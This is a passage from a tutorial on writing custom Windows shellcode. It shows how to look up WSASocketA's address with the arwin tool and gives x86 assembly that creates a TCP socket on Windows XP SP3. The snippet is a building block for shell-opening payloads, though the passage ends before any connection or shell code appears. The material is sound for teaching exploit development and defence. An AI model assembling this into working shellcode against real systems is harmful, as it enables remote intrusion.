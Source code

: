 2. We call the required function.

3. That function will store the returned value on `EAX`.

For example, the structure for calling `WSASocketA` function is as
follows:

1. Push `dwFlags` parameter to the stack.

2. Push `g` parameter to the stack.

3. Push `lpProtocolInfo` parameter to the stack.

4. Push `protocol` parameter to the stack.

5. Push `type` parameter to the stack.

6. Push `af` parameter to the stack.

7. Call `WSASocketA()`.

8. Retrieve the return value of `WSASocketA()` from `EAX` which is the
    resulting socket handle.

We also need to know the exact address of the `WSASocketA()` on the
system. Normally, those function addresses won’t change much on a
specific version of Windows but will likely change over different
updates, so keep that in mind when creating custom shellcodes.

For retrieving the addresses of functions on the current `OS`, you can
use the [arwin](http://www.vividmachines.com/shellcode/arwin.c) tool:

**arwin finding WSASocketA().**

``` console
C:\Documents and Settings\Administrator>arwin ws2_32 WSASocketA
arwin - win32 address resolution program - by steve hanna - v.01
WSASocketA is located at 0x71ab8b6a in ws2_32
```

Ok, with all the required information, we can proceed to write some
Assembler. We need to get a socket handle that can be used by a `TCP`
connection. With that in mind, we can write the call to `WSASocketA()`:

**WSASocketA() in ASM.**

``` x86asm
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'dwFlags' parameter
push ebx                ; Push 'g' parameter
push ebx                ; Push 'lpProtocolInfo' parameter
mov bl,0x6              ; Protocol: IPPROTO_TCP=6
push ebx                ; Push 'protocol' parameter
xor ebx,ebx             ; Zero out EBX again
inc ebx                 ; Type: SOCK_STREAM=1
push ebx                ; Push 'type' parameter
inc ebx                 ; Af: AF_INET=2
push ebx                ; Push 'af' parameter
mov ebx,0x71ab8b6a      ; Address of WSASocketA() on WinXPSP3
call ebx                ; call WSASocketA()
xchg eax,esi            ; Save the returned socket handle on ESI
```
